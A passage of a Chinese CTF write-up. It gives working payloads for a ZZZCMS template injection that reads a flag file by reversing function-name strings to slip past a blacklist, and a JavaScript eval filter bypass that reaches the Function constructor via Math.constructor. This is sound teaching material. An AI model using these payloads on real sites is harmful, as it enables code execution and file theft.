 ```
foreach ($danger as $val)`{` 
if(strpos($s,$val) !==false)`{` 
error('很抱歉，执行出错，发现危险字符【'.$val.'】'); 
`}` 
`}` 
return $s; 
`}`
```

构造可以自己看正则，也可以看官方文档<br>[http://help.zzzcms.com/259324](http://help.zzzcms.com/259324)搜索 if 即可找到

```
`{`if:(eval_code)`}`相同结果`{`else`}`不相同结果`{`end if`}`
```

到这里应该能知道这是模板注入，而页面中只有搜索框可以注入<br>
这里主要用到动态函数 多次调试后可以得到 flag

方法应该很多

```
`{`if:var_dump(((strrev(stnetnoc_teg_elif)))((strrev(edoced_46esab))(Li8uLi8uLi8uLi8uLi8uLi8uLi9mbGFn)))`}`
```

### <a class="reference-link" name="ezcalc"></a>ezcalc

出这个是因为想着是新生赛,让大家多接触一些新的东西,,就把以前 node 遇到的 trick 拼一拼 (然而好像没新生做

考点就:正则绕过+vm2 逃逸,但是那个依赖挺多坑的,也可能是因为我不熟,题目还因为这个中途下了一次,最后直接给了 dockerfile

第一层

```
function saferEval(str) `{` 
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&amp;|^%&lt;&gt;=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) `{` 
    return null; 
  `}` 
  return eval(str); 
`}`
```

因为可以使用 Math.随便什么单词，所以可以获取到`Math.constructor`,获取两次后,就是 Function 对象,就可以可以任意代码执行

然后利用箭头的特性,绕过过滤

```
((Math)=&gt;(Math=Math.constructor,Math.constructor(Math.fromCharCode(...))))(Math+1)() 

使用 
Math+1 // '[object Math]1' 
得到 String 对象 
然后使用 String.fromCharCode(...)构造任意字符 
然后
```

就可以执行任意代码了,之后还有 vm2 的限制
